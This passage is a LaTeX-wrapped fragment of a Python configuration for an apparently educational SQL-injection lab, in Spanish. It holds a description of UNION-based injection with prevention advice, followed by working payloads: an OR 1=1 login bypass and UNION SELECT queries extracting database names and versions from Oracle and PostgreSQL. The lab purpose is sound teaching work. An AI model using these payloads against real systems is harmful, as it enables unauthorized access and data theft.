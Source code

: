 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python]
    #        y realizar inyecciones de manera eficaz.</p>
    #    """,
    #    "credenciales":[],
    #    "usuario": "admin",
    #    "clave": "admin",
    #    "route_oracle": "login_oracle_server_error",
    #    "route_postgres": "login_postgres_server_error",
    #    "function_oracle": login_inseguro_errors_oracle,
    #    "function_postgres": login_inseguro_errors_postgresql
    #},
    "union": {
        "title": "UNION-Attack SQL Injection",
        "description": """
            <p>La inyección SQL basada en UNION es una técnica en la que un atacante utiliza la cláusula UNION para combinar los resultados de una consulta legítima con datos maliciosamente solicitados, permitiendo extraer información sensible de la base de datos. Para llevar a cabo este ataque, el atacante identifica puntos vulnerables en la aplicación web, determina el número de columnas en la consulta original y luego inyecta una consulta maliciosa que utiliza UNION SELECT para unir los resultados deseados. Para prevenir este tipo de ataques, es esencial validar y sanear todas las entradas de usuario, utilizar consultas parametrizadas y aplicar el principio de privilegios mínimos en las cuentas de la base de datos.</p>
        """,
        "dificultad": 2,
        "impacto": 3,
        "credenciales":[
            {
                "nombre":"Login sin credenciales válidas",
                "usuario":"cualquier_input",
                "password":"cualquier_input' OR 1=1 --"
            },
            {
                "nombre":"Nombre de la BD (Oracle)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT 1, ora_database_name, NULL AS nombre_bd_relleno_1, NULL AS nombre_bd_relleno_2 FROM dual --"
            },
            {
                "nombre":"Versión de la BD (Oracle)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT NULL, banner, NULL, NULL FROM v$version WHERE banner LIKE 'Oracle%' --"
            },
            {
                "nombre":"Nombre de la BD (PostgreSQL)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT NULL, current_database() AS nombre_bd, NULL, NULL; --"
            },
            {
                "nombre":"Versión de la BD (PostgreSQL)",
                "usuario":"cualquier_input",
                "password":"cualquier_input' UNION SELECT NULL, version(), NULL, NULL; --"
            },
            {
                "nombre":"Todas las tablas en la BD (Oracle)",
                "usuario":"cualquier_input",

\end{lstlisting}
\end{document}
